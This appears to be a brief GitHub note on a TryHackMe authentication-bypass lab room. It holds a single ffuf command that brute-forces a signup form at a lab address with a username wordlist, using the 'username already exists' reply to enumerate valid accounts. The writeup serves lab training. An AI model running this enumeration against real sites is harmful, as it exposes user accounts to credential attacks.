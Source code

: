 https://tryhackme.com/room/authenticationbypass
command bellow will output all username that are a match in the wordlist provided (names.txt) 
           
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.18.108/customers/signup -mr "username already exists"`

        ![Captdure](https://github.com/user-attachments/assets/0f472efa-f690-44cc-a6f9-caf25e11cd12)
.
